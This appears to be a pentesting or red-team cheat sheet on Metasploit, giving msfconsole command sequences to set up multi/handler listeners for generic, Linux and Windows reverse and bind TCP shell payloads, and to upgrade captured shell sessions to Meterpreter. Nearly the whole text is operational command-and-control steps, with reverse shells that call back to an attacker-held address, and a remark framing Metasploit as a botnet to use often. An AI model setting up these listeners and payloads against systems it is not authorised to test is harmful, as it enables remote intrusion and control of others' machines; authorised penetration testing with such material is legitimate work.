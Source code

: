 # Metasploit

Search Tag(s): #metasploit-framework #command-and-control #living-off-the-land

Note: You can use regular one-liners or create your own custom regular implants. Metasploit acts like a botnet so use it more often. Further more, you can use the [[05 - Command and Control/Metasploit/Interactive Shell/Meta Shell/Usage|meta shell's]] `resource` to automate commands in a faster pace. Look more in [[Resource|here]].

## 01 - Multi Handler

### 1.1 - Setting up a Generic TCP listener

#### 1.1.1 - Reverse Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload generic/shell_reverse_tcp

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

#### 1.1.2 - Bind Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload generic/shell_bind_tcp

msf exploit(multi/handler) > set rhost <target_IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

### 1.2 - Setting up a Linux TCP listener

#### 1.2.1 - Reverse Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload linux/x64/shell_reverse_tcp

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

#### 1.2.2 - Bind Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload linux/x64/shell_bind_tcp

msf exploit(multi/handler) > set rhost <target_IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

### 1.3 - Setting up a Windows TCP listener

#### 1.3.1 - Reverse Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

#### 1.3.2 - Bind Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/x64/shell_bind_tcp

msf exploit(multi/handler) > set rhost <target_IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

## 02 - Upgrade to Meterpreter Session

Another benefit is by converting regular shells to meterpreter whenever in various circumstances that you might need it.

```
msf > use post/multi/manage/shell_to_meterpreter

options

set session <session_ID>

set technique <powershell | vbs>

set payload_override windows/meterpreter/reverse_tcp

set platform_override windows

set psh_arch_override x64

run
```

Here's a shorter command.

```
msf > sessions -u <session_ID>
```

---
## References

- [Rapid7: Metasploit Framework - Upgrading shells to Metepreter](https://docs.metasploit.com/docs/pentesting/metasploit-guide-upgrading-shells-to-meterpreter.html)

- [Hacking Articles: How to Upgrade Command Shell to Meterpreter](https://www.hackingarticles.in/command-shell-to-meterpreter/)